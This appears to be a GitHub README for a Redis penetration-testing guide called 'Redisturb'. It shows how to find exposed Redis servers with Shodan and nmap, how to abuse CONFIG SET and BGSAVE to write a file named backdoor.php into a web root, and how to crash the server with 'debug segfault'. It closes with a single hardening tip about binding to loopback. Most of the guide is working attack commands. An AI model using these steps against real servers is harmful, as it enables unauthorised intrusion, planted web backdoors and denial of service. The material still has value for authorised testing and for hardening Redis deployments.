 # Redisturb
## *Redis.io* Penetration Testing 
![GitHub Logo](/Redis_Logo.png)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

*Nmap* is useful to quickly find open ports.

`nmap -p 6379 -n --open 199.233.232.0/24`

##### Upload malicious file
Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Denial Of Service

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).
